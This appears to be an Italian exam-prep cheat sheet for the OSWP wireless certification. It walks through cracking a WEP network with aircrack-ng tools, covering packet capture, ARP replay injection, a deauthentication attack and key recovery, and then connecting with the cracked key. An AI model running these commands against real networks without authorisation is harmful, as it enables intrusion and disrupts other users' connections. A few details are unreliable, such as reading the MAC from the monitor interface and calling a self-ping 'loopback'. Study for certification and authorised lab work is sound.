 
# 🛡️ OSWP – Attacco WEP (SSH-only, exam-style)

## ⚙️ 0. Setup iniziale

```bash
sudo airmon-ng check kill
sudo airmon-ng start wlan0
```

Attiva monitor mode su `wlan0mon`.

---

## 🔍 1. Scansione reti

```bash
sudo airodump-ng wlan0mon
```

Identifica:
- `BSSID`
- `Channel`
- `Client associati` (STATION)

---

## 🎯 2. Sniff target

```bash
sudo airodump-ng --bssid <BSSID> -c <CH> -w dump wlan0mon
```

Raccoglie IV per crack.

---

## 🚀 3. Attacco ARP replay

```bash
sudo aireplay-ng --arpreplay -b <BSSID> -h <MAC_TUO> wlan0mon
```

Genera pacchetti per aumentare i `#Data`.

📌 Trova il MAC della tua scheda (prima di monitor mode):

```bash
cat /sys/class/net/wlan0mon/address
```

---

## 💣 4. (Opzionale) Attacco Deauth

```bash
sudo aireplay-ng --deauth 5 -a <BSSID> wlan0mon
```

Stimola il client a reinviare traffico.

---

## 🔓 5. Crack della chiave

```bash
aircrack-ng dump-01.cap
```

Risultato atteso:

```
KEY FOUND! [ 12:34:56:78:90 ]
```

---

## 🔌 6. Connessione con wpa_supplicant

### wep.conf

```ini
network={
    ssid="wifi-old"
    key_mgmt=NONE
    wep_key0="1234567890"
    wep_tx_keyidx=0
}
```

### Avvio

```bash
sudo airmon-ng stop wlan0mon
sudo wpa_supplicant -i wlan0 -c wep.conf -D nl80211 -B
sudo dhclient wlan0
```

---

## ✅ 7. Verifica connessione

```bash
ip a
ping 192.168.1.1
```

---

## 🧠 Approfondimento: IP e Gateway

- L'indirizzo **192.168.1.48** è il tuo IP locale, assegnato dal router via DHCP.
- L'indirizzo **192.168.1.1** è quasi sempre il **gateway**, cioè il router stesso.
  È il dispositivo che ti connette al resto della rete o a Internet.
- Pingare `192.168.1.1` serve a verificare la connettività col gateway.
- Pingare `192.168.1.48` significa pingare te stesso (loopback locale, utile per test interni).

---

Fine del capitolo WEP. Pronto per la WPA2? 😎
